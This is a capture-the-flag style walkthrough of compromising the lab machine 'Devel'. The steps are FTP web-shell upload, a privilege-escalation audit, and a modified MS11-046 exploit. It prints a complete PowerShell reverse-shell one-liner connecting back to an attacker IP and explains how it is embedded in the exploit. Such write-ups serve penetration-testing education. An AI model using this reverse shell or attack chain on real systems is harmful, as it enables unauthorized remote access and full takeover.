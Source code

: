 ```yaml
---
layout: default
---
```


# Devel

Let's get to work on the machine Devel.

![](./01.png)

Like normal, we'll kick off ```nmap``` against the system to see what's out there.

![](./02.png)

Looks like we have FTP and HTTP responding.  Let's see what the web interface is serving up.

![](./03.png)

Looks like it's a default IIS7 webpage.  Let's load up ```dirbuster``` to see if we can find any directories or files.

![](./04.png)

![](./05.png)

It looks like it's finding a lot of garbage that probably isn't going to be useful to us.  Let's try hitting one of pages listed to see what comes back.

![](./06.png)

We get a server error page.  We'll have to keep that in mind in case it comes in useful later.

Let's take a look to see what's on the FTP share.

![](./07.png)

Looks like it's sharing out the IIS7 default page's directory.

Let's grab a web shell off GitHub, and upload it to FTP share.  We'll use https://github.com/tennc/webshell/blob/master/asp/webshell.asp for this.

Let's upload it to the FTP share.

![](./08.png)

Now, let's load the webshell in our browser.

![](./09.png)

Looks to be working, so let's setup a ```netcat``` listener so we can connect back to ourselves.

![](./10.png)

We'll use powershell to create the connection.  Specifically, we're using the following, then encoded into base64 UTF-16LE, so that we can pass it in the webshell:

>```powershell
>$client = New-Object System.Net.Sockets.TCPClient("192.168.0.53",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
>```
![](./11.png)

The page is hanging as expected, so let's check our listener.

![](./12.png)

Looking good, now let's kill the IIS worker process, so it restarts, causing the webshell to be useable again, giving us a way to kick off PowerShell again in case something hangs our shell.

![](./13.png)

Let's run ```systeminfo``` to get some more info on this machine.

![](./14.png)

Now let's download Windows PrivEsc Check (https://github.com/pentestmonkey/windows-privesc-check) and copy the executable to the FTP share.

![](./15.png)

Now in the webshell we'll run ```c:\inetpub\wwwroot\windows-privesc-check2.exe --audit -a -V -o c:\inetpub\wwwroot\results```

![](./16.png)

This will hang the page long enough we will get a 500 internal server error, this is fine.

We'll just watch the FTP share until we see the results files are generated.

![](./17.png)

We'll then open the ```results.html``` page.

![](./18.png)

If we look through the results, we'll see that the machine is vulnerable to MS11-046.

We'll copy the code from https://www.exploit-db.com/exploits/40564 and open ```vi``` with a file named ```MS11-046.c```.

![](./19.png)

Now we'll paste in the code, but we'll want to change the following line from ```"c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32"``` to ```C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\Powershell -encodedCommand``` pasting the base64 code from earlier after ```-encodedCommand```.

![](./20.png)

This allow us to have the exploit call back to us, as if we tried to run it before, it would spawn ```cmd.exe```, but not interactively.

We'll then save the file.

To compile this executable, we'll have to install ```gcc-mingw-w64-i686```.

![](./21.png)

Once it's installed, let's compile the code.

![](./22.png)

We'll drop a copy of the file into the FTP share.

![](./23.png)

Then we'll browse to ```wwwroot```, where the file lives.

![](./24.png)

From there, we'll copy it from ```C:\inetpub\wwwroot``` over to ```C:\temp```.

![](./25.png)

Now we'll kick off a listener again.

![](./26.png)

With the listener up, let's launch our exploit, and verify it escalated us to the ```system``` account in our reverse shell.

![](./27.png)

Escalation looks good, so let's grab the flags.

![](./28.png)

That's a wrap.